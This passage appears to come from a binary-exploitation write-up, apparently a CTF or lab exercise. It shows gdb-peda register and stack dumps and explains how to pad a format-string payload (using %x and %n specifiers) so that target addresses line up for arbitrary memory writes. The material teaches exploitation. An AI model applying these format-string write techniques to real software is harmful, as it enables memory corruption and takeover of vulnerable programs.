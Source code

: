```
EAX: 0xffffcf88 --> 0x804a048 --> 0x0 
EBX: 0x0 
ECX: 0x0 
EDX: 0xf7fb087c --> 0x0 
ESI: 0xf7faf000 --> 0x1b1db0 
EDI: 0xf7faf000 --> 0x1b1db0 
EBP: 0xffffcff8 --> 0xffffd008 --> 0x0 
ESP: 0xffffcf70 --> 0xffffcf88 --> 0x804a048 --> 0x0 
EIP: 0x8048510 (<fun0+37>:	add    esp,0x10)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048507 <fun0+28>:	lea    eax,[ebp-0x70]
   0x804850a <fun0+31>:	push   eax
   0x804850b <fun0+32>:	call   0x80483a0 <fgets@plt>
=> 0x8048510 <fun0+37>:	add    esp,0x10
   0x8048513 <fun0+40>:	sub    esp,0xc
   0x8048516 <fun0+43>:	lea    eax,[ebp-0x70]
   0x8048519 <fun0+46>:	push   eax
   0x804851a <fun0+47>:	call   0x8048390 <printf@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffcf70 --> 0xffffcf88 --> 0x804a048 --> 0x0 
0004| 0xffffcf74 --> 0x64 ('d')
0008| 0xffffcf78 --> 0xf7faf5a0 --> 0xfbad2088 
0012| 0xffffcf7c --> 0xf0b5ff 
0016| 0xffffcf80 --> 0xffffcfbe --> 0xffff0000 --> 0x0 
0020| 0xffffcf84 --> 0x1 
0024| 0xffffcf88 --> 0x804a048 --> 0x0 
0028| 0xffffcf8c ("%44257x%6$L\240\004\b%8$n\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048510 in fun0 ()
```

So we can see here, that the address of target0 is stored properly in it's own DWORD, which is 4 bytes long (just enough to hold the address). Now let's look a little farther down to see if the address for target1 is stored properly.

```
gdb-peda$ x/5w 0xffffcf88
0xffffcf88:	0x0804a048	0x32343425	0x36253735	0xa04c6e24
0xffffcf98:	0x38250804
gdb-peda$ x/w 0xffffcf88
0xffffcf88:	0x0804a048
gdb-peda$ x/w 0xffffcf94
0xffffcf94:	0xa04c2436
gdb-peda$ x/w 0xffffcf98
0xffffcf98:	0x38250804
```

So we can see here that the address for target1 (0x804a04c) is split between the DWORDS at 0xffffcf94 (has 0xa04c) and 0xffffcf98 (has 0x0804). So we will need to format it so they are all in the same DWORD. We can do that by adding additional characters. First off if we count the amount of characters in between the two addresses (%44257x%6$n), we see that there are 11 characters which is 7 more than the original "%6$n" string. Since DWORDS are 4 bytes long, we should be able to add one additional character to the end of that string which should move the address of target1 into it's own DWORD. Of course since we effictively added 8 characters, we have moved the location of the target1 address to two DWORDS down. Let's test all of this.
